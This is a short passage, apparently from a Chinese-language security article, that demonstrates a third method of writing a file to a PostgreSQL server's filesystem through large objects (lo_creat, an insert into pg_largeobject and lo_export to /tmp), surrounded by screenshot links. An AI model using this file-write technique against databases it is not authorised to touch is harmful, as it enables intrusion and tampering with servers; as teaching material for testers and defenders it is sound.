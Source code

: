 [![36.png](assets/1698894509-63ebed23692eb46730a9202926fedb0c.png)](https://storage.tttang.com/media/attachment/2022/04/13/b344ef39-3135-408b-93bc-e4ff84ead051.png)

[![37.png](assets/1698894509-8de8c60c3ef13bb751696613564bb2ff.png)](https://storage.tttang.com/media/attachment/2022/04/13/85879882-5bf4-4831-9118-c8ac48b53a41.png)

**方法 3 lo\_export + pg\_largeobject**

```plain
-- 记下生成的 lo_creat ID
select lo_creat(-1);

-- 替换 24577 为生成的 lo_creat ID
INSERT INTO pg_largeobject(loid, pageno, data) values (24577, 0, decode('ZmZmZmZmZmYweA==', 'base64'));
select lo_export(24577, '/tmp/success.txt');
```

[![31.png](assets/1698894509-ebbfd18beec509924a42452b8ecf0c75.png)](https://storage.tttang.com/media/attachment/2022/04/13/ecc3445e-401e-4563-bbf6-1b1ef06b80ac.png)
